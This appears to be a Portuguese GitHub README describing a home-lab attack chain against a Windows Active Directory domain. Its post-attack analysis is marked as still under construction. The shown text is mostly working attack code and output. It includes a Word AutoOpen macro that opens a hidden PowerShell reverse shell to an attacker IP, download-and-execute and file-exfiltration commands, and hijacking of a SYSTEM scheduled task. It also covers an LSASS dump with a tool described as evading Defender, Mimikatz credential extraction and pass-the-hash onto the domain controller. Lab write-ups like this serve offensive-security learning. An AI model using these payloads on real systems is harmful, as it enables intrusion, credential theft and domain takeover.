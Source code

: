 ### **Em construção...... Analise pos ataque em construção**


# Simulação de Cadeia de Ataque - Laboratório de Segurança Ofensiva
<br>
<br>

## Objetivo

Esta parte do projeto é a continuação do projeto anterior [Windows Server AD](https://github.com/MercioRodrigues/Windows-server-AD/blob/main/README.md), no qual foi construído, em laboratório, um ambiente Active Directory. Foram também utilizadas ferramentas que já tinham sido preparadas em outro projeto que realizei anteriormente, o [SOC SOAR Project](https://github.com/MercioRodrigues/SOC-SOAR-Project), nomeadamente o **Wazuh**.  
<br>  
Esta fase tem como objetivo simular uma cadeia de ataque realista em um ambiente de domínio Windows, sem detecção por parte do Windows Defender, explorando diferentes etapas de comprometimento típicas de atacantes reais. A simulação foi conduzida em um laboratório controlado, permitindo, posteriormente, a análise detalhada de cada fase da intrusão.


A cadeia de ataque envolve as seguintes etapas:

1. [Acesso inicial:](#-fase-1---acesso-inicial-via-macro-em-documento-word-phishing) comprometimento de uma estação de trabalho através da execução de uma macro maliciosa em um documento do Word.
2. [Escalada de privilégios local:](#-fase-2--escalada-de-privil%C3%A9gios-local) obtenção de privilégios SYSTEM explorando uma tarefa agendada mal configurada.
3. [Enumeração do dominio:](#-fase-3--enumera%C3%A7%C3%A3o-p%C3%B3s-escala%C3%A7%C3%A3o) Enumerar o ambiente local e de domínio e avaliar a viabilidade de extrair as credenciais da memória (lsass.exe).
4. [Exfiltração de credenciais e Acesso ao DC:](#https://github.com/MercioRodrigues/Windows-server-AD/edit/main/Cadeia%20de%20um%20ataque.md#fase-4--extra%C3%A7%C3%A3o-de-credenciais-via-dump-de-lsass-com-nativedump) extração da memória do processo LSASS para capturar credenciais em texto claro e hashes NTLM e acesso ao controlador de domínio (Domain Controller) utilizando técnicas de Pass-the-Hash.
 

**Análise pós-ataque**: utilização de ferramentas de monitorização e deteção como **Wazuh** e **Wireshark** para investigar a intrusão e compreender os rastros deixados nos logs do sistema e na rede.

O objetivo final é obter não apenas uma shell no controlador de domínio, mas também documentar detalhadamente os indicadores de comprometimento (IoCs), comportamentos suspeitos e evidências forenses que podem ser usadas por equipes de defesa para deteção precoce e resposta a incidentes.

---

⚠️ *Aviso: Este projeto foi realizado exclusivamente para fins educacionais e em ambiente isolado. Nenhuma das técnicas aqui descritas deve ser utilizada em ambientes reais sem autorização explícita.*


<br>
<br>

## 🧪 Fase 1 - Acesso Inicial via Macro em Documento Word (Phishing)

Nesta fase inicial, o atacante utilizou **engenharia social (phishing)** para induzir um colaborador da organização a abrir um documento Word malicioso. O documento continha uma macro em VBA (Visual Basic for Applications) configurada para executar automaticamente ao abrir o ficheiro.

###  Objetivo

Obter uma **shell reversa PowerShell** no sistema da vítima sem levantar suspeitas, utilizando `Wscript.Shell` para evadir políticas de execução e manter a execução em segundo plano.

---

### Conteúdo da Macro

A macro maliciosa foi inserida no Editor do Visual Basic para Aplicações, dentro do módulo `NewMacros`. O código é dividido em duas partes:

- `AutoOpen()`: executa a macro automaticamente ao abrir o ficheiro
- `test()`: define e executa o payload PowerShell em modo oculto

```vb
Sub AutoOpen()
    Call test
End Sub

Sub test()
    ' test Macro
    Dim objshell As Object
    Set objshell = CreateObject("Wscript.Shell")
    objshell.Run "powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command ""$command = {while($true){try {$cl = New-Object System.Net.Sockets.TcpClient('192.168.1.205',443);$st = $cl.GetStream();$rd = New-Object IO.StreamReader($st);$wr = New-Object IO.StreamWriter($st);$wr.AutoFlush = $true;while($cl.Connected){$cmd = $rd.ReadLine();if($cmd -eq 'exit'){break;}try{$res = iex $cmd 2>&1 | Out-String;}catch{$res = $_.Exception.Message;} $wr.WriteLine($res);$wr.Flush();}$cl.Close();}catch{Start-Sleep -Seconds 10;}}}; Start-Process powershell -WindowStyle Hidden -ArgumentList '-NoProfile', '-ExecutionPolicy', 'Bypass', '-Command', $command"""
    Set objshell = Nothing
End Sub
```

<p align="center">
 
  <br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/14196c25-96e6-43dc-b1f4-ce14bd0be6be" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

---

### Listener do Atacante

Enquanto o documento era aberto pela vítima, o atacante encontrava-se à escuta na máquina Kali, utilizando `netcat` com `rlwrap` para suportar histórico e edição de linha:

```bash
rlwrap nc -lvnp 443
```
<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/1d6fd6d7-a226-44c2-a28a-da105117975d" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

**Resumo**

O código PowerShell embutido na macro estabelece uma conexão TCP reversa para o endereço do atacante (192.168.1.205) na porta 443. Após a conexão, o script entra num loop que:

**1.** Recebe comandos enviados pelo atacante

**2.** Executa os comandos localmente com Invoke-Expression (iex)

**3.** Envia a saída da execução de volta através do canal TCP

Este tipo de técnica é comum em ataques fileless, pois evita gravações em disco e contorna políticas de execução do PowerShell.

 <br/>
    <br/>

## 🧪 Fase 2 — Escalada de Privilégios Local

Após o acesso inicial, o próximo objetivo foi escalar privilégios para obter controlo total do sistema como **NT AUTHORITY\SYSTEM**.  
Esta fase consistiu na **descoberta e exploração de uma tarefa agendada mal configurada**, permitindo a execução de código com permissões elevadas.

---

### 1. Preparação do Ambiente de Investigação

Foi criado um servidor de upload/download em Python na máquina atacante para facilitar a transferência de ficheiros entre as máquinas:

```bash
python3 upload_server.py
# [+] Serving HTTP upload/download server at port 8080
```

---

### 2. Execução do WinPEAS e Exfiltração do Output

Na shell da vítima, foi executado o `winPEASps1.ps1`, e a saída foi guardada num ficheiro `.txt`:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.205:8080/winPEASps1.ps1') | Out-File "$env:USERPROFILE\Downloads\winpeas.txt" -Encoding ASCII
```

Em seguida, o ficheiro foi exfiltrado para a máquina do atacante:

```powershell
Invoke-RestMethod -Uri "http://192.168.1.205:8080/winpeas.txt" -Method PUT -InFile "C:\Users\jsilva\Downloads\winpeas.txt"
```

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/d11db3f6-816b-45a4-b7a7-11ef05ae2246" height="60%" width="60%"/>
    <br/>
    <br/>
    <img src="https://github.com/user-attachments/assets/1cd6ede9-e275-484c-9a32-ac27e3fbdcac" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>



---

### 3. Análise do Output do WinPEAS

Na máquina atacante, o output foi segmentado por tarefas agendadas:

```bash
awk '
/^TaskName:/ {
    ++i;
    f = sprintf("task_%03d.txt", i);
}
f { print > f }
' winpeas.txt
```

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/1dacf129-6f1a-4b05-8fcb-f7febbe8d0bb" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>
    

Depois, filtrou-se por tarefas que correm como `SYSTEM`:

```bash
grep -l "Run As User: *SYSTEM" task_*.txt > SYSTEM_tasks.txt
```

E procuraram-se scripts suspeitos:

```bash
grep -Ei "ps1|bat|cmd|exe" $(cat SYSTEM_tasks.txt) | grep -i "task to run"
```
<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/845d809a-25e0-4a1a-b050-028f2f5db977" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>


Foi identificado a seguinte tarefa crítica:

```text
task_012.txt:Task To Run: powershell.exe -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -File C:\TempTask\svc_launcher.ps1
```

Lendo o conteudo de **task_012.txt** conseguimos obter a informação mais completa sobre a tarefa.

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/c523e3eb-39da-4398-b588-4091550ed2bf" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>
    

---

### 4. Verificação de Permissões

Foi verificado que o utilizador comprometido (`jsilva`) tinha permissões de **controlo total** sobre o ficheiro `.ps1` usado pela tarefa:

```powershell
icacls C:\TempTask\svc_launcher.ps1
```
<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/875ef2f9-e9af-465e-b1c8-45014cca5b24" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>


Saída relevante:

```
PILAO\jsilva:(I)(F)          → Full control — pode sobrescrever este ficheiro
NT AUTHORITY\SYSTEM:(I)(F)   → A tarefa agendada corre o script como SYSTEM
```

---

### 5. Substituição do Script e Execução da Tarefa

Foi feito o upload de um **script malicioso** com reverse shell, substituindo o original:

```powershell
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'http://192.168.1.205:8080/svc_launcher.ps1' -OutFile 'C:\TempTask\svc_launcher.ps1'"
```

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/4d36fb25-f3e4-47c3-b7c3-4efe2c2cf370" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>


Como a tarefa era configurada para correr ao arrancar o sistema, pode-se esperar que a vitima inicie a máquina mas, como tratasse de um laboratório forcei o reinício:

```powershell
Restart-Computer -Force
```

---

### 6. Resultado — Shell como SYSTEM

Na máquina atacante, aguardou-se ligação à porta 4444:

```bash
rlwrap nc -lvnp 4444
```

Após o reinício da vítima:

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/448ad18a-e3b8-4bee-b28b-f0d69decd94f" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>




A escalada foi bem-sucedida! O atacante obteve **acesso completo com privilégios SYSTEM**.

---

### Resumo

A má configuração de permissões num script chamado por uma tarefa agendada como SYSTEM foi explorada com sucesso para **escalar privilégios localmente**.

A utilização do `winPEAS` permitiu descobrir a vulnerabilidade, a análise de permissões confirmou a possibilidade de exploração, e a substituição do script permitiu ganhar **controlo total do sistema**, com acesso **persistente**.

<br/>
<br/>

## 🧪 Fase 3 – Enumeração Pós-Escalação

Após escalar privilégios locais até `NT AUTHORITY\SYSTEM`, o objetivo passou a ser:

- **Enumerar o ambiente local e de domínio**  
- **Avaliar a viabilidade de extrair credenciais da memória (`lsass.exe`)**

---

### 1. Verificar se a máquina está num domínio

```powershell
systeminfo | findstr /B /C:"Domain"
```

**Resultado:**

```
Domain: pilao.pt
```

✅ Isto confirma que a máquina está unida ao domínio `pilao.pt`. Esse facto é importante porque credenciais de **utilizadores do domínio** podem estar armazenadas em memória, especialmente se fizeram login interativo recentemente.

---

### 2. Obter o hostname da máquina comprometida

```powershell
hostname
```

**Resultado:**

```
Client1
```

Esta informação ajuda a identificar o endpoint dentro da infraestrutura.

---

### 3. Listar utilizadores locais e de domínio

```powershell
wmic useraccount get name,sid
```

🔍 Procura por utilizadores olhando para o `RID`:

- `500` → Administrator  
- `502` → krbtgt (conta usada pelo Kerberos)  
- `1000+` → contas personalizadas  

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/b1e32638-eeb0-4172-b39f-899b302a4ac4" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

```powershell
net group "Domain Admins" /domain
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/4a37c0e3-06c1-47da-bbc6-865846bea87b" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>


**Resultado:**

```
Group name     Domain Admins
Members:
  Administrator
```

✅ A presença do utilizador `Administrator` no grupo `Domain Admins` confirma que este tem **controle total** sobre o domínio.

---

### 4. Ver permissões

```powershell
whoami /all
```
<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/023e075c-27b1-4029-a32c-29dceddff2b9" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>


**Resultados importantes:**

User: NT AUTHORITY\SYSTEM

Groups:
- BUILTIN\Administrators
- NT AUTHORITY\SERVICE
- NT AUTHORITY\Authenticated Users
- NT AUTHORITY\This Organization
- LOCAL
- NT SERVICE\Schedule

Previlégios:
**SeDebugPrivilege:** ✅ Enabled

✅ Isto confirma:
- Estamos como NT **AUTHORITY\SYSTEM**
- Com **privilégios máximos no domínio**
- E com o privilégio **SeDebugPrivilege**, necessário para ler a memória de lsass.exe




🚨 O privilégio `SeDebugPrivilege` permite ler a memória de processos de outros utilizadores, inclusive do `lsass.exe`.

---

### 5. Enumerar os Controladores de Domínio (Domain Controllers)

```powershell
nltest /dclist:pilao.pt
```

**Resultado:**

```
Marcio.pilao.pt [PDC]
```
<br/>
<br/>

**Comando**

```powershell
nslookup -type=SRV _ldap._tcp.dc._msdcs.pilao.pt
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/fa036c25-c1b6-4673-98c9-df17860bed9d" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>


**Resultado:**

```
_ldap._tcp.dc._msdcs.pilao.pt   SRV service location:
    svr hostname = marcio.pilao.pt
    svr hostname = server2.pilao.pt

marcio.pilao.pt -> 192.168.1.200  
server2.pilao.pt -> 192.168.1.201
```

✅ Identificar os Domain Controllers é essencial para **movimento lateral**.

---

### 6. Verificar partilhas administrativas no domínio

```powershell
net view \\pilao.pt
```

**Resultado:**

```
NETLOGON    Disk    Logon server share
SYSVOL      Disk    Logon server share
```

**Estes são diretórios críticos do AD, usados para scripts de login e políticas de grupo (GPOs).** 

---

### 7. Testar acesso ao C$ (Admin Share) no DC

```powershell
Start-Process cmd -ArgumentList '/c net use \\pilao.pt\C$' -WindowStyle Hidden
```

```powershell
Get-SmbConnection | Select-Object -Property ShareName, ServerName, UserName
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/d0b0f854-9e95-483a-97ec-383e0e512ea7" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

**Resultado:**

```
ShareName ServerName       UserName
--------- -----------      --------
IPC$      Marcio.pilao.pt  PILAO\CLIENT1$
C$        pilao.pt         PILAO\Administrator
```

✅ Isto confirma que a shell atual tem acesso **total** ao sistema de ficheiros do DC via `C$` — partilha administrativa para administradores.

---

### Implicações para o Atacante

Com estes dados confirmados:

- ✅ Shell com privilégios de **Domain Admin**  
- ✅ Acesso SMB autenticado ao Domain Controller  
- ✅ Capacidade para:   
  - Exfiltrar credenciais  
  - Iniciar **movimento lateral** (pivoting) ou **persistência em domínio**

---

### Conclusão da Fase 3

Com privilégios de `NT AUTHORITY\SYSTEM` e verificação de que estamos como **Domain Admin**, foi possível confirmar que o sistema comprometido é uma excelente base para:

- Extração de credenciais da memória (`lsass.exe`).
- Acesso irrestrito ao domínio.  

---

<br/>
    <br/>

## 🧪Fase 4 — Extração de Credenciais via Dump de LSASS com NativeDump

Após a obtenção de privilégios SYSTEM, o objetivo passou a ser capturar credenciais da memória do processo `lsass.exe`, de forma furtiva e sem acionar antivírus. Isso permitiu acesso a contas privilegiadas de domínio para movimentações laterais.

---

### 1. Compilar o NativeDump no Kali Linux

A ferramenta utilizada foi o **NativeDump** (versão em Golang), que depois de sofrer cross-compilation não foi detetável por soluções como o Windows Defender.

```bash
wget https://raw.githubusercontent.com/ricardojoserf/NativeDump/main/golang-flavour/nativedump.go
```

Inicialização do projeto Go:

```bash
go mod init nativedump
go mod tidy
```

Compilação para Windows (cross-compilation):

```bash
env GOOS=windows GOARCH=amd64 go build nativedump.go
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/a252cd72-e443-4422-a4e3-d41527263962" height="80%" width="80%"/>
    <br/>
    <br/>
  <p/>



✅ Gera o ficheiro `nativedump.exe`, pronto para transferência.

---

### 2. Transferência do Executável para a Vítima

```powershell
Invoke-WebRequest -Uri "http://192.168.1.205:8080/nativedump.exe" -OutFile "C:\Windows\Temp\nativedump.exe"
cd C:\Windows\Temp
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/bccb6186-b9d4-468a-b900-b3eb673126bf" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

Transferência feita sem levantar alertas.

---

### 3. Dump de LSASS

```powershell
.\nativedump.exe -o .\proc_664.dmp
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/3125424b-68fa-4579-a267-79478a053e1e" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

✅ O NativeDump identificou automaticamente o PID do processo `lsass.exe` e gerou um dump da sua memória. Isso incluiu credenciais e hashes em uso no momento.

---

### 4. Exfiltrar o Dump para o Atacante

```powershell
Invoke-RestMethod -Uri "http://192.168.1.205:8080/proc_696.dmp" -Method PUT -InFile "C:\\Windows\\Temp\\proc_696.dmp"
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/69713f1e-ff9c-4051-9ad8-6ca858fcae0f" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

✅ O dump foi transferido com sucesso para análise offline no Kali.

---

### 5. Análise com Mimikatz

A análise do ficheiro `.dmp` foi feita offline no Kali com **Mimikatz**, via `wine`:

```bash
wine mimikatz.exe
```

Comandos utilizados:

```mimikatz
sekurlsa::minidump /home/kali/Downloads/uploadserver/proc_696.dmp
sekurlsa::logonPasswords
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/30aa347b-b5bb-4763-a773-a5f013692b45" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/760f2bf8-63d6-42ba-9143-596a1c739a0d" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>


**Output relevante:**

```
Username : Administrator 500
NTLM     : a1f074c272b7d460ccdd7f8f19c5419b
Já sabemos que pertence ao domínio PILAO e o DC tem IP:192.168.1.200 
```

✅ Obtido o hash NTLM do utilizador `Administrator` (confirmado como membro do grupo `Domain Admins`).

---

### 6. Acesso Remoto com Pass-The-Hash

Com as informações necessárias e o hash NTLM em posse, foi possível autenticar no **Controlador de Domínio** remotamente:

```bash
python3 ~/impacket/examples/wmiexec.py PILAO/Administrator@192.168.1.200 -hashes :a1f074c272b7d460ccdd7f8f19c5419b
```


<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/b990afa8-37c4-4eca-9e0f-9f8b189664e5" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

Shell remota estabelecida:

```cmd
C:\> whoami
pilao\administrator
```

---

### ✅ Resultado

O atacante agora detém controlo completo sobre o domínio:

- Acesso ao **DC (Domain Controller)**
- Permissões de **Administrador de Domínio**
- Capacidade de:
  - Extrair hashes de toda a base de utilizadores
  - Modificar políticas de grupo (GPOs)
  - Criar utilizadores e persistência
  - Efetuar **movimentações laterais**
  - Lançar ataques como Golden Ticket ou DCSync

---





